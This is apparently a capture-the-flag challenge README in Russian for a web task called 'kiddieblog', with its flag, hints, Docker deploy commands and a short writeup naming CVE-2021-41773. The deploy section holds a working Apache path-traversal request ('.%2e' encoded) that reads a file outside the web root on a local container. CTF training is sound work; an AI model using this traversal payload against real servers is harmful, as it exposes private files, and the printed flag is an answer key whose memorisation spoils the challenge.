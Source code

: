 __Category__: 
* Web

__Author__: 
* @RegularITCat

__Description__: 
Еу!
чек ит аут, очередной скрипт кидди, думающий что он крутой хакер, сделал свой блог. Как думаешь, расковыряем?

__Flag__: 
* SSL_CTF{damn_br0_wanna_hackThingsWithMeX}

__Hints__: 
* О, Апач, норм.
* Ну и дичь он конечно пишет... Хотя, пост Tired интересный
* Зачекайка свеженькие proof of concept 

__Deploy__: 
* `docker build -t kiddieblog .; docker run -dp 8081:8081 --name kiddieblog kiddieblog`
* `curl "http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/easterEgg/flag.txt"`
* `docker stop kiddieblog && docker rm kiddieblog`

__Writeup__: 

Это просто cve-2021-41773
Основная идея в том, что вы почитаете блог, увидите со временем, что он написан на апаче, пойдете поищете уязвимости, да похекаете.
